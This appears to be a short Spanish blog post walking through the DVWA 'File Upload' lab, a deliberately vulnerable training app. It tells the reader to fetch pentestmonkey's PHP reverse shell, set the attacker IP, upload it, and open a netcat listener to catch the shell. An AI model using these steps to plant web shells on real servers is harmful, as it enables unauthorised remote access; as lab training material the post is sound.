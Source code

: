 ```yaml
---
typora-copy-images-to: ../assets/img
typora-root-url: ../
layout: post
categories:
conToc: true
title: File Upload
---
```


# File Upload 



Nos descargamos la imagen de https://hub.docker.com/r/vulnerables/web-dvwa

Una vez montada y funcionando nos descargamos el shell.php de esta dirección: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php y modificamos la el valor de la IP con la de nuestra máquina

```php
$ip = '192.168.1.205'
```
Subimos el .php a DVWA y copiamos el valor de la ruta que nos dé

```bash
../../hackable/uploads/shell.php
```

Abrimos un terminal e introducimos:

```bash
nc -v -n -l -p 1234
```

Al poner en el navegador la dirección habremos completado el shell inverso

![image-20220505173031652](/assets/img/image-20220505173031652.png)

